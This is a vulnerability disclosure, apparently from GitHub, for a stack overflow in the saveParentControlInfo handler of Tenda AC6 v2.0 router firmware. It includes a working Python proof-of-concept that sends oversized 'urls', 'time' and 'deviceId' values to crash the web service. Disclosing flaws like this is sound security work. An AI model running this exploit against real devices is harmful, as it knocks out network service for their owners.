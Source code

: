 # Information

**Vendor of the products:** Tenda

**Vendor's website:** [腾达(Tenda)官方网站](https://www.tenda.com.cn/)

**Reported by:** Guan Qingwen(2144987805@qq.com)

**Affected products:** AC6 AC1200 

**Affected firmware version:**  AC6V2.0RTL_V15.03.06.51

**Firmware download address:** [AC6 v2.0 固件-腾达中国](https://www.tendacn.com/us/download/detail-3794.html)

# Overview

A **stack overflow vulnerability** in the `saveParentControlInfo` function in AC6V2.0RTL_V15.03.06.51 allows an attacker to construct an excessively long value for the `urls` or `time`,or`deviceId` variable, leading to a stack overflow and potentially resulting in a DDoS attack.

# Vulnerability details

Analyzing the `saveParentControlInfo` function in this file reveals that when the `urls` or `time`,or`deviceId` variable contains an excessively long string, such as 400 consecutive "a" characters, a stack overflow occurs. This happens because the `pc_info` variables lack sufficient buffer space and overflow when the value is copied using the `strcpy` function.

![image-20250313220303730](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503132203694.png)

![image-20250313220346239](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503132203659.png)

![image-20250313220348784](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503132203524.png)

Cross-referencing the `saveParentControlInfo` function, it can be observed that it is indeed called by the formDefineTendDa function. As a result, an attacker can cause a DDoS attack on the router.

![image-20250313215128153](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503132151262.png)



# Poc

By changing the IP and token to the target router's IP and token, the attack can be successfully carried out.

```python
import requests
ip='192.168.0.34'
url = f"http://{ip}/goform/saveParentControlInfo"

headers = {
    "Host": "192.168.0.198",
    "Connection": "keep-alive",
    "Content-Length": "31",
    "Pragma": "no-cache",
    "Cache-Control": "no-cache",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "http://192.168.0.198",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Referer": "http://192.168.0.198/goform/WriteFacMac",
    "Accept-Encoding": "gzip, deflate",
    "Accept-Language": "zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6",
    "Cookie": "password=wtfbro",
}

data = {
    "urls": "a"*0x400,
    "time": "2024-02-23"+"b"*0x400,
    "deviceId": "c"*0x400,
}

response = requests.post(url, headers=headers, data=data)

print(response.status_code)
print(response.text)
```

# Attack Demonstration

At this point, the service is functioning normally.

![image-20250312223640285](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503122240094.png)

The script attack was successful, causing a segmentation fault.

![image-20250312223758005](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503122240127.png)

The service crashed.

![image-20250312223915278](https://mono7s.oss-cn-wuhan-lr.aliyuncs.com/image/202503122240425.png)